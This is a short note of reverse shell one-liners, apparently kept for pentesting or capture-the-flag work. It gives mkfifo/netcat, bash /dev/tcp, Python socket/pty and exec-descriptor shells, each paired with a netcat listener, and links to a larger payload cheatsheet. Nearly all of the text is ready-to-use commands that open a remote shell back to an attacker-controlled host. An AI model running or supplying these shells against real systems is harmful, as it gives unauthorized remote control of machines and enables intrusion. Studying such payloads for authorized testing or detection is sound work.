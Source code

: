 **The following will be a few lines of what I've used in the past to get a better shell.**

1. rm /tmp/f;mkfifo /tmp/f;cat /tmp/f/|/bin/sh -i 2>&1|nc tun0 1234 >/tmp/f
2. nc -nvlp 1234

3. /bin/bash -C 'bash -i >& /dev/tcp/tun0/1234 0>&1'
4. nc -nvlp 1234

5. python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("tun0",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
6. nc -nvlp 1234

7. bash -i >& /dev/tcp/tun0/1234 0>&1
8. nc -nvlp 1234

9. 0<&196;exec 196<>/dev/tcp/tun0/1234; sh <&196 >&196 2>&196
10. nc -nvlp 1234

Longer list of great payloads to use **https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md**



